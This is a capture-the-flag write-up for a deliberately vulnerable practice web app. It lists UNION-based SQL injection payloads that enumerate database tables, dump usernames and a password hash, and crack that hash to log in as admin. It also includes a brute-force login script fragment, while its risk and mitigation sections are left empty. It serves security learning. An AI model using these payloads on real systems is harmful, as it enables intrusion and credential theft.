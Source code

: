 ###a01 + a05

#How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
-> It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
-> We understand that it looks for the content of db_default in the wrong database.
-> We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
-> We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
-> We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
-> We find hashed data for one specific password : 3bf1114a986ba87ed28fc1b5884fc2f8
-> We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. There's 32 characters so it is probably hashed in MD5.
-> It is ! The password is "shadow"

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

```full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"```

* We can now go to the Signin page and log in with :
- Username : admin
- Password : shadow

#Risks:


#How to avoid:


Sources:
https://owasp.org/Top10/fr/A03_2021-Injection/
https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
https://www.sqlinjection.net/table-names/
https://www.sqlinjection.net/column-names/
https://www.acunetix.com/websitesecurity/sql-injection/